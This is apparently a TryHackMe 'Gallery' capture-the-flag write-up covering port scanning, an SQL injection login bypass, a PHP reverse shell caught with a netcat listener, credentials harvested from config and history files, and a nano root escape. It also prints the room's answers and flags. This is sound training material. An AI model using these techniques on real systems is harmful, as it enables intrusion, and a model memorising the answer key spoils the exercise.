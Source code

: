 # Gallery

* IP = 10.10.4.131

## Questions/Tasks:
1. How many ports are open?

* Nmap scan report:
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Simple Image Gallery System

```
**Ans-2**

2. What's the name of the CMS?

* Gobuster report:
```bash
2022/06/20 11:45:53 Starting gobuster
=====================================================
/gallery (Status: 301)
Progress: 26788 / 87666 (30.56%)
```
* Navigating to '/gallery' we're redirected to '/gallery/login.php'
* Firstly we try random creds like: _admin_ and _admin_ and get the following response when we inspect with dev tools:<br>
![Screenshot](./assets/inspect.png)
* The login page is vulnerable to SQL injection(found by observation and testing around)
* Login to /gallery by:
```
' OR 1=1 #
```
in both username and password fields.<br>
**Ans-Simple Image Gallery**

3. What's the hash password of the admin user?

* We navigate to this page(the my account page of the Admin):
![Screenshot](./assets/1.png)
* Try to upload PHP reverse shell code attached with project
  Since the backend is probably made on PHP(hint: login page was login.php)
* Put a netcat listener:
```bash
nc -lnvp 7777
```
* And we get a reverse shell!
![Screenshot](./assets/2.png)
* Stabilise the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo
fg
export TERM=xterm
```
* We're www-data with lower privileges
* mike is a user in home directory
### Start enumerating the server:
* The /var/www/html/gallery contents:
```bash
www-data@gallery:/var/www/html/gallery$ ls
404.html  build               database  index.php       report       user
albums    classes             dist      initialize.php  schedules
archives  config.php          home.php  login.php       system_info
assets    create_account.php  inc       plugins         uploads

```
* Contents of initialize.php:
```php

  $dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

    if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
    if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
    if(!defined('dev_data')) define('dev_data',$dev_data);
    if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
    if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
    if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
    if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");


```
* The password mentioned in clear text is of dev_oretnom which might be creds of MariaDB database admin
* We login with gallery_user and passw0rd321:
```bash
mysql -u gallery_user -p
```
* We login successfully!
![Screenshot](./assets/3.png)
* Henceforth we explore the database:<br>
![Screenshot](./assets/4.png)
![Screenshot](./assets/5.png)
![Screenshot](./assets/6.png)

**Ans-a228b12a08b6527e7978cbe5d914531c**

4. What's the user flag?

* In the /var directory we find backups directory which contains mike's home backup:
* In which we can find the sudo password for mike from .bash_history:
![Screenshot](./assets/7.png)
![Screenshot](./assets/8.png)
* The password:
```
b3stpassw0rdbr0xx
```
* Escalate with:
```bash
su mike
```

**Ans-THM{af05cd30bfed67849befd546ef}**

5. What's the root flag?

* To Escalate to root privileges we first check commands that can be run as root with:
```bash
$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```
* As we can see we can run the above program as root:
* Navigating to /opt and the file contents are:
```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
* In the above 4 options we can run nano as root
* Hence we execute:
```bash
sudo /bin/bash /opt/rootkit.sh
```
* Take help from <a href="https://gtfobins.github.io/">gtfobins</a> to Escalate privileges through nano:
```bash
nano
^R^X
reset; sh 1>&0 2>&0
```
* ctrl+R for Read File and then ctrl+X to execute commands
![Screenshot](./assets/9.png)
* Navigate to /root and check the root.txt file<br>
**Ans**-
```
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```
